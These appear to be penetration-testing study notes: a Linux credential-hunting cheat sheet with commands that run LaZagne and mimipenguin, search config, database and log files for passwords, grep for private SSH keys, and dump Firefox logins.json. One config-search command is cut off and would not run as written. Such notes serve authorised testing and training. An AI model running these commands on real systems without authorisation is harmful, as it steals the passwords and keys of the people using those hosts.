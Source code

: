 #linux #password-hunting #mimipenguin #LaZange #llinPEAS  


---

## Linux Password Hunting

| Command                             | Description                          |
| ----------------------------------- | ------------------------------------ |
| `cat /etc/crontab`                  | Read `cron jobs`                     |
| `ls -la /etc/cron.*/`               | List `cron jobs`                     |
| `tail -n5 /home/*/.bash*`           | Search `Bash history`                |
| `sudo python2.7 laZagne.py all`     | Search `memory` for credentials      |
| `sudo python3 mimipenguin.py`       | Search `memory` for credentials      |
| `sudo python2.7 laZagne.py browser` | Search `browsers` for credentials    |
| `python3.9 firefox_decrypt.py`      | Decrypt `firefox` stored credentials |
| `./linpeas.sh`                      | Search for credentials and vulnerabilities                                    |


#### Configs

Search for `config` files
```
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v
```

Search for `keywords in config` files (from saved file of previous command) 
```
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```

---
#### Databases

Search for `databes`
```
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

---
#### Notes

Search for `txt` files (like notes)
```
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

---
#### Scripts

Search for `scripts`
```
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```

---
#### SSH Keys

Search for `private SSH keys`
```
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```

Search for `public SSH keys`
```
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```

---
#### Logs

Search for `logs`
```
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

---
#### Memory and Cache

| Examples       | Examples       | Examples  | Examples    |
| -------------- | -------------- | --------- | ----------- |
| Chromium-based | CLI            | Mozilla   | Thunderbird |
| Git            | Env_variable   | Grub      | Fstab       |
| AWS            | Filezilla      | Gftp      | SSH         |
| Apache         | Shadow         | Docker    | KeePass     |
| Mimipy         | Sessions       | Keyrings  |             |
| WiFi           | Wpa_supplicant | Libsecret | Kwallet     |
|                |                |           |             |
|                |                |           |             |

| Name        | Description                     | Link                                        |
| ----------- | ------------------------------- | ------------------------------------------- |
| mimipenguin | Search `memory` for credentials | https://github.com/huntergregal/mimipenguin |
| Lazange     | Search `memory` for credentials | https://github.com/AlessandroZ/LaZagne                                            |

---
#### Browsers

#### Firefox Stored Credentials

  Firefox Stored Credentials

```
ls -l .mozilla/firefox/ | grep default 
```
```
drwx------ 11 cry0l1t3 cry0l1t3 4096 Jan 28 16:02 1bplpd86.default-release
drwx------  2 cry0l1t3 cry0l1t3 4096 Jan 28 13:30 lfx3lvhb.default
```

  Firefox Stored Credentials

```
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```

---


